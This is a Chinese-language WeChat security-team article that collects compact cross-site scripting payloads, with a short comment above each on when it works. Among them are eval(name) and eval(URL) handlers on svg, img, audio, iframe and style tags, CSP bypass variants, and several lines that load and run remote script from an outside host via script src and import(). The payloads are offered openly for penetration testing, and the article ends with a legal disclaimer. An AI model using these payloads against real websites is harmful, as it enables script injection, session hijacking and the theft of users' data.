##  微小的XSS Payloads集合

雾晓安全TEAM  [ 雾晓安全 ](javascript:void\(0\);)

**雾晓安全** ![]()

微信号 gh_79582f17fd5a

功能介绍 雾晓安全专注于红蓝对抗，CTF夺旗赛等技术分享，并预警最新漏洞，定期分享常用渗透工具、教程等资源。

____

__

收录于话题

#WEB安全 15

#渗透测试 28

# XSS-Payloads

    
    
    <!-- 仅适用于反射型XSS --!>  
    <svg/onload=eval(name)>
    
    
    <!-- 如果你控制了 URL -->   
    <svg/onload=eval(`'`+URL)>
    
    
    <!-- 如果你控制了名字，但是 unsafe-eval 没有启用 -->   
    <svg/onload=location=name>
    
    
    <!-- 在 chrome 中，也适用于 innerHTML，即使在尚未插入 DOM 的元素上 -->   
    <svg><svg/onload=eval(name)>
    
    
    <!-- 如果您控制窗口的名称，此有效负载将在innerHTML 内工作，即使在尚未插入DOM 的元素上-->   
    <audio/src/onerror=eval(name)>  
    
    
    
    <!-- 如果您控制 URL，此有效负载将在 innerHTML 内工作，即使在尚未插入 DOM 的元素上 -->   
    <img/src/onerror=eval(`'`+URL)>
    
    
    <!-- 随便一个脚本 -->   
    <script/src=//Ǌ.₨></script>
    
    
    <!-- 如果你控制了窗口的名字 -->   
    <iframe/onload=src=top.name>
    
    
    <!-- 如果你控制了 URL -->   
    <iframe/onload=eval(`'`+URL)>
    
    
    <!-- 如果页面上的 iframe 数量不变 -->   
    <iframe/onload=src=top[0].name+/\Ǌ.₨?/>
    
    
    <!-- 仅适用于 Firefox -->   
    <iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
    
    
    <!-- 如果页面上的 iframe 数量是随机的 -->   
    <iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
    
    
    <!-- 如果在 CSP 中禁用 unsafe-inline 并且允许外部脚本 -->   
    <iframe/srcdoc="<script/src=//Ǌ.₨></script>">
    
    
    <!-- 如果允许内联样式 -->   
    <style/onload=eval(name)>
    
    
    <!-- 如果允许内联样式并且可以控制 URL -->   
    <style/onload=eval(`'`+URL)>
    
    
    <!-- 如果内联样式被阻止 -->   
    <style/onerror=eval(name)>
    
    
    <!-- 使用外部脚本作为导入，在innerHTML 中不起作用，除非Firefox -->  
    
    
    
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->   
    <svg/onload=import(/\\Ǌ.₨/)>
    
    
    <!-- 使用外部脚本作为导入，如果允许内联样式则触发。  
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->  
    <style/onload=import(/\\Ǌ.₨/)>  
    
    
    
    <!-- 使用外部脚本作为导入 -->   
    <!-- PoC 仅适用于 https 和 Chrome，因为 Ǌ.₨ 检查 Sec-Fetch-Dest 标头 -->   
    <iframe/onload=import(/\\Ǌ.₨/)>  
    

 **弃用：**

    
    
     <!-- 如果你控制了网址，Safari-only -->  
    <iframe/onload=write(URL)>
    
    
    <!-- 如果允许内联样式，仅 Safari -->   
    <style/onload=write(URL)>

 **演示：**

![](https://gitee.com/fuli009/images/raw/master/public/20210820084316.png)

 **Payloads 获取**

关注微信公众号雾晓安全后台回复“  **XSS-Payloads**  ”获取下载链接

  

 **网络安全攻防WiKi**

ID：61345404  

欢迎各位师傅通过微信扫描加入网络安全攻防WiKi，本星球宗旨以免费共享发展为前提，主要以网络安全攻防技术共享交流，覆盖网络安全资料，以及岗位内推。

![](https://gitee.com/fuli009/images/raw/master/public/20210820084317.png)

![]()

>  **免责声明**  
>
> 内容来源网络，版权归原创者所有，禁止使用本项目的任何形式进行发起网络攻击，阻止一切网络犯罪行为，一切信息禁止用于任何非法用途。除非无法确认，都会标明作者及出处，如有侵权烦请告知，我们会立即删除并致歉。谢谢！

觉得不错点个“ **赞** ”、“ **在看**
”，支持下小编![](https://gitee.com/fuli009/images/raw/master/public/20210820084318.png)

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

微小的XSS Payloads集合

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

